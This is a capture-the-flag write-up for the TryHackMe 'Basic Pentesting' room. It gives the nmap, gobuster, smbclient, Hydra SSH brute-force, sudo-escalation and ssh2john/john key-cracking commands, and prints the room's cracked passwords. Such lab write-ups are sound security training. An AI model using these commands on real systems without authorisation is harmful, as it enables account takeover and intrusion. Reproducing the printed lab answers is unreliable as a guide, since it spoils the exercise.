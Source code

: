<div align="center">
  
# بسم الله الرحمن الرحيم  

</div>

# TryHackMe: Basic Pentesting Writeup by Mohammed (Azima)

![image](https://github.com/user-attachments/assets/c3c5a6b8-006f-43aa-8247-8631cd509998)


**Room Link:** [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)  
**Difficulty:** Easy  

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -sV -A -T4 <TARGET_IP>
```
## Open Ports and Services

### Port 22 (SSH)
- **Service**: OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
- **Details**:
  - SSH host keys found (RSA, ECDSA, ED25519)
  - Ubuntu Linux OS indication

### Port 80 (HTTP)
- **Service**: Apache httpd 2.4.18 (Ubuntu)
- **Details**:
  - Server header confirms Apache/2.4.18 on Ubuntu
  - No title returned (text/html content)

### Ports 139/445 (SMB)
- **Service**: Samba smbd 4.3.11-Ubuntu
- **Details**:
  - Workgroup: WORKGROUP
  - NetBIOS computer name: BASIC2
  - Samba version: 4.3.11-Ubuntu
  - Security mode: Message signing enabled but not required
  - Guest access allowed
  - OS identification as Windows 6.1 (Samba's Windows compatibility layer)

### Port 8009 (AJP13)
- **Service**: Apache Jserv (Protocol v1.3)
- **Details**:
  - Supported methods: GET, HEAD, POST, OPTIONS

### Port 8080 (HTTP)
- **Service**: Apache Tomcat 9.0.7
- **Details**:
  - Possible open proxy
  - Tomcat default page visible

### Web Enumeration
```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Discovered:**
- `/development` - Contains two files:
  - `dev.txt`
 
    
    ![image](https://github.com/user-attachments/assets/38100a51-be7e-47a9-a506-d0f52a92422a)

  - `j.txt`
 
    
    ![image](https://github.com/user-attachments/assets/bd39dc78-a756-42e3-a095-2e126c7f46cf)

- `/server-status` - Gives (Forbidden:
You don't have permission to access /server-status on this server.)

## 2. Exploitation

### SMB Enumeration
```bash
smbclient -L //<TARGET_IP> -N
```
Found an anonymous share.
Made Ls to see Files Then made get staff.txt to download the file and then opened it and found that 

![image](https://github.com/user-attachments/assets/a0455013-9802-4ffb-97a4-d0861161de3e)


### Brute-Forcing SSH
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

**Credentials Found:**
- **Username:** jan
- **Password:** armando

**SSH Access:**
```bash
ssh jan@<TARGET_IP>
```

## 3. Privilege Escalation

### Checking Sudo Permissions
```bash
sudo -l
```
Discovered jan could run `/bin/bash` as user kay:
```bash
sudo -u kay /bin/bash
```

### Accessing Kay's SSH Key
Found private key at `/home/kay/.ssh/id_rsa`

**Cracking Process:**
```bash
python /usr/share/john/ssh2john.py id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
**Cracked Passphrase:** `beeswax`

**Logged in as kay:**
```bash
ssh -i id_rsa kay@<TARGET_IP>
```

### Root Flag
Found in `/root/root.txt` after further enumeration.

## 4. Lessons Learned
- 🚨 **Weak Passwords:** Default credentials (jan:armando) allowed initial access
- ⚠️ **Misconfigured Sudo:** Improper sudo permissions enabled privilege escalation
- 🔑 **Exposed SSH Keys:** Private keys without strong passphrases are dangerous

---

🔗 **More Writeups:** [My GitHub Security Writeups](https://github.com/Mohammed-Abdelaziem/Writeups)
